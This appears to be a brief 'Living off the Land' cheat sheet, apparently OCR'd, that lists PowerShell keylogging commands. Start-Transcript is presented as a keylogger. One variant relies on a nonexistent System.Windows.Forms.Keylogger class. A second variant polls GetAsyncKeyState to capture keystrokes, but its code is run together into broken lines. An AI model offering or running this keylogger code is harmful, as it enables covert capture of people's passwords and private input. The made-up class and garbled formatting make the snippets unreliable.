 # Living off the Land

## 01 - PowerShell

Execute the transcript log.

```
PS C:\> Start-Transcript -Path keylogger.log
```

Stop the transcript log.

```
PS C:\> Stop-Transcript
```

## 02 - PowerShell .NET

First variant.

```powershell
PS C:\> $path = 'C:\temp\keystrokes.txt'; Add-Type -AssemblyName System.Windows.Forms; $listener = New-Object
System.Windows.Forms.Keylogger; [System.Windows.Forms.Application]::Run($listener); $listener.Keys |
Out-File -FilePath $path
```

Second variant.

```powershell
PS C:\> Add-Type -TypeDefinition @" using System; using System.Runtime.InteropServices; public class KeyLogger
{ [DllImport("user32.dll")] public static extern int GetAsyncKeyState(Int32 i); } "@ while ($true) {
Start-Sleep -Milliseconds 100 for ($i = 8; $i -le 190; $i++) { if ([KeyLogger]::GetAsyncKeyState($i) -
eq -32767) { $Key = [System.Enum]::GetName([System.Windows.Forms.Keys], $i) Write-Host $Key } } }
```